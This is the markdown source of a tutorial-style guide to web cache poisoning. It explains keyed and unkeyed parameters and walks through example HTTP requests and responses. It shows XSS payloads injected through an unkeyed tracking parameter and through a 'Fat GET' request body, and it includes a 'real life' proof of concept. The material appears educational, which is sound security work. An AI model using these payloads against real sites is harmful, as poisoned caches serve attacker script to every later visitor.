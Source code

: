 ```yaml
---
title: "Introduction to Cache Poisoning Attacks"
date: 2025-02-19
draft: false
description: "Introduction into Cache Poisoning Attacks"
tags: ["Cache Poisoning", "Guide"]
---
```

<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">


## <i class="fa-solid fa-worm text-primary-400"></i> Terminology

### Keyed Parameters
<span class="text-primary-400">Keyed parameters</span> are parameters that the cache system considers when storing and retrieving cached content. This means that <span class="text-primary-400">variations in these parameters will result in different cached entries</span>.

For example, if the URL has parameters such as `?user=123` and the cache is <span class="text-primary-400 font-bold">keyed</span> on this parameter, the cache will <span class="text-primary-400">store and serve different content</span>  (<span class="text-primary-400 font-bold">cache miss</span>) for `?user=123` and `?user=456`.

### Unkeyed Parameters
<span class="text-primary-400">Unkeyed parameters</span> are parameters that the cache system ignores when storing and retrieving cached content. This means that <span class="text-primary-400">variations in these parameters will not result in different cached entries</span>. The cache will store only one version of the content (<span class="text-primary-400 font-bold">cache hit</span>), regardless of the variations in these parameters.

## <i class="fa-solid fa-magnifying-glass text-primary-400"></i> Identifying Unkeyed Parameters
The first step is to <span class="text-primary-400">identify unkeyed parameters</span>, since keyed parameters need to be the same when the victim accesses the resource.

### Example
Assume we open `example.com` on `/page` with the following parameters:

```HTTP
GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com
```

Since `example.com` uses caching and we are visiting the page for the first time, we will see a cache `MISS`:

{{< highlight HTTP "linenos=false,hl_lines=4" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

Now we <span class="text-primary-400">alter each parameter and check weather we get a cache miss or hit</span>. A cache `MISS` indicates us that this parameter is <span class="text-primary-400">keyed</span>, since the server loaded a new version of the website.

```HTTP
GET /page?user=guest&tracking=abc HTTP/1.1
Host: example.com
```

{{< highlight HTTP "linenos=false,hl_lines=4 12" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, guest!</p>
  </body>
</html>
{{< /highlight >}}

Now that we identified the <span class="text-primary-400">user parameter to be keyed</span>, let’s continue and check the tracking parameter. Before we change the tracking parameter, lets resent our initial request where we got a cache `MISS`, to verify that the sytem now cached it.

```HTTP
GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com
```

{{< highlight HTTP "linenos=false,hl_lines=4 12" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: HIT

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

Great. Now, let's alter the value of the tracking parameter to see whether we get a cache `MISS`, indicating a keyed parameter, or a `HIT` again, indicating an unkeyed parameter.

```HTTP
GET /page?user=admin&tracking=some-other-value HTTP/1.1
Host: example.com
```

{{< highlight HTTP "linenos=false,hl_lines=4 12" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: HIT

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

We can observe the tracking parameter must be a <span class="text-primary-400">unkeyed value</span>, since the cache always returns HIT, even though the value of the parameter was changed.

> The same thing also sometimes applies to header values in the HTTP requests.

## <i class="fa-solid fa-bullseye text-primary-400"></i> Exploitation
One of the <span class="text-primary-400">most common ways to exploit cache poisoning is through XSS</span>, though there are other attacks like DoS and unkeyed cookies. To exploit a XSS you have to <span class="text-primary-400">find an injection point using an unkeyed parameter</span>. The XSS will then be severed to all other users loading that cached version.

### Example
Imagine we have an injection via the tracking parameter into a meta tag like this:

```HTTP
GET /page?user=admin&tracking=https://mytrack.com HTTP/1.1
```

```HTML
...
<meta http-equiv="refresh" content="https://mytrack.com" />
...
```

As before, when sending the initial request to the server, we will receive a cache MISS. So let us inject a simple XSS payload via the unkeyed tracking parameter `"><img/src/onerror=print()>`.

{{< highlight HTML "linenos=false,hl_lines=3 8" >}}
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
    <meta http-equiv="refresh" content="https://"><img/src/onerror=print()> />
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

Since <span class="text-primary-400">tracking is an unkeyed parameter</span>, anybody who visits the page `/page?user=admin` will be a victim of the XSS attack.


## <i class="fa-solid fa-user-ninja text-primary-400"></i> Advanced Techniques
There are multiple advanced things we can try to get and escalate a cache poisoning attack. However for now let us focus one just one of those, a <span class="text-primary-400">"Fat GET"</span>.

### Fat GET
A "Fat GET" request, is when <span class="text-primary-400">we use GET parameters in the post body, while still using the GET verb</span>. If a server is misconfigured it might parse the parameters from the body. With this you can try to create a discrepancy between the webserver and the cache. <span class="text-primary-400">With this we can also use keyed parameters, since they are no longer directly present in the URL</span>. We can then go back and perform an XSS attack the same way we did before.

{{< highlight HTTP "linenos=false,hl_lines=4" >}}
GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com

user=guest
{{< /highlight >}}

{{< highlight HTML "linenos=false,hl_lines=11" >}}
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, guest!</p>
  </body>
</html>
{{< /highlight >}}

{{< highlight HTTP "linenos=false,hl_lines=4" >}}

GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com

user=</p><img/src/onerror=print()><p>
{{< /highlight >}}

{{< highlight HTML "linenos=false,hl_lines=11" >}}
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, </p><img/src/onerror=print()><p>!</p>
  </body>
</html>
{{< /highlight >}}

Again, if a victim now opens `example.com/page?user=admin` the XSS will be loaded from the cache.

## <i class="fa-solid fa-book text-primary-400"></i> A Real Life PoC
```HTTP
GET /?cb=100&"><image/src/onerror=print()> HTTP/2
Host: target-website.com
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36

HTTP/2 200 OK
CACHE: HIT
```

```HTML
...
<meta property="og:url" content="https://target-website.com/?cb=100&"><image/src/onerror=print()>">
...
```

In this example, an image tag with an `onerror` event is injected into the URL parameter. When the server processes this request, the parameter is reflected in the HTML response and cached. Consequently, subsequent users requesting the cached page will execute the malicious JavaScript.